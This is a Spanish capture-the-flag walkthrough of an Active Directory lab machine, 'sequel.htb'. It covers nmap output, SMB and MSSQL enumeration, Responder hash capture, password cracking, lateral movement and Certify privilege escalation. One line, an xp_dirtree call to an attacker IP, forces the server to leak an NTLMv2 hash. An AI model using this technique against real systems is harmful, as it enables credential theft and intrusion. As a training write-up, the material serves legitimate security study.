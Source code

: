 #ActiveDirectory #medium #windows 
### Ping
```python
ping -c 1 10.10.11.202
PING 10.10.11.202 (10.10.11.202) 56(84) bytes of data.
64 bytes from 10.10.11.202: icmp_seq=1 ttl=127 time=150 ms

--- 10.10.11.202 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 149.915/149.915/149.915/0.000 ms
```

### TTL 127 = Windows

### nmap
```python
PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2024-03-29 08:37:36Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-03-29T08:39:09+00:00; +7h58m59s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
|_ssl-date: 2024-03-29T08:39:10+00:00; +7h58m59s from scanner time.
1433/tcp  open  ms-sql-s          Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info: 
|   10.10.11.202:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2024-03-29T08:39:09+00:00; +7h58m59s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-03-29T08:32:26
|_Not valid after:  2054-03-29T08:32:26
| ms-sql-ntlm-info: 
|   10.10.11.202:1433: 
|     Target_Name: sequel
|     NetBIOS_Domain_Name: sequel
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: dc.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-03-29T08:39:09+00:00; +7h58m59s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
3269/tcp  open  globalcatLDAPssl?
|_ssl-date: 2024-03-29T08:39:10+00:00; +7h58m59s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
5985/tcp  open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf            .NET Message Framing
49667/tcp open  msrpc             Microsoft Windows RPC
49673/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc             Microsoft Windows RPC
49686/tcp open  msrpc             Microsoft Windows RPC
49725/tcp open  msrpc             Microsoft Windows RPC
51906/tcp open  msrpc             Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h58m58s, deviation: 0s, median: 7h58m58s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-03-29T08:38:31
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 140.86 seconds
```

### Enumeración del puerto 53 (DOMAIN)
`dig` conseguimos una cookie que podría ser interesante
![[Pasted image 20240328204907.png]]

`dnsenum`
podemos ver lo que parece la ipv6 de la maquina
![[Pasted image 20240328205655.png]]

`Enumerating srv records`
tenemos un reconocimiento completo de kerberos y ldap lo que me hace pensar que podríamos intentar obtener un TGT mas adelante 
![[Pasted image 20240328205742.png]]

### Enumeración del puerto 88 (Kerberos)

![[Pasted image 20240328210931.png]]

### Enumeración del puerto 389 (ldap)
no obtenemos mucha información sobre el ldap
![[Pasted image 20240328214121.png]]

### Enumeración del puerto 445 (SBM)
tenemos archivos compartidos 
![[Pasted image 20240328214416.png]]

`smbmap`
smbmap nos permite ver los permisos que tenemos sobre los archivos compartidos
![[Pasted image 20240328214546.png]]

### smbmap
encontramos un directorio llamado public donde tenemos permisos de lectura y dentro tenemos un archivo pdf que podemos descargar 
![[Pasted image 20240328214912.png]]

`download`
descargamos el archivo pdf que se esta compartiendo
![[Pasted image 20240328220045.png]]

`open pdf`
el archivo pdf que conseguimos nos da información de varios usuarios y de como conectarnos a la base de datos mysql con las credenciales
![[Pasted image 20240328220348.png]]

### impacket-mssqlclient
usando `mssqlclient` de la suite de impacket podemos establecer conexión en la base de datos
![[Pasted image 20240328221851.png]]

### responder 
vamos a iniciar el responder para intentar obtener un hash. si intentamos listar los archivos y directorios en nuestra maquina y estos no existen la base de datos debería de darnos un hash
```python
EXEC MASTER.sys.xp_dirtree '\\10.10.10.10\test', 1, 1
```
![[Pasted image 20240328222914.png]]

### impacket-mssqlclient + responder
apuntamos a un recurso que no existe en nuestra maquina atacante por lo cual estaríamos envenenando la petición y de esta manera podeos capturar un hash NTLMv2. del usuario sql_svc
`NOTA: este ataque es parecido a un ataque SMB-Relay (SAMBA Relay)`
![[Pasted image 20240328224406.png]]

`john`
usaremos john para poder desencriptar este hash
![[Pasted image 20240328231411.png]]

### crackmapexec
validamos las credenciales por smb y por evil-winrm
![[Pasted image 20240328231824.png]]

### Evil-winrm
obtenemos conexión
![[Pasted image 20240328232054.png]]

### Lateral Movement

tenemos un usuario llamado Ryan.Cooper probablemente debemos hacer movimiento lateral para poder cambiar de usuario
![[Pasted image 20240328235037.png]]

`ERRORLOG.BAK` tenemos un archivo donde se guardan logs del sistema
![[Pasted image 20240328234834.png]]

`ERRORLOG.BAK`
parece que el usuario ryam cometió el error de poner su contraseña en el parámetro de usuario y esto ha quedado guardad en el archivo de logs
![[Pasted image 20240328234727.png]]

### crackmapexec
validamos las credenciales que hemos conseguido
![[Pasted image 20240328235716.png]]

### Lateral Movement (Usuario ryam.cooper)
logramos cambiar de usuario exitosamente. ahora solo nos queda escalar privilegios
![[Pasted image 20240328235837.png]]

### Certify
en este punto podemos utilizar la herramienta certify para intentar buscar algún certificado vulnerable y de esta manera poder escalar privilegios descargaremos la herramienta desde esta ubicación [Certify](https://github.com/ademkanat/Certify.git) 
![[Pasted image 20240329155240.png]]

`.\Certifi.exe cas`
![[Pasted image 20240329155457.png]]

![[Pasted image 20240329155617.png]]

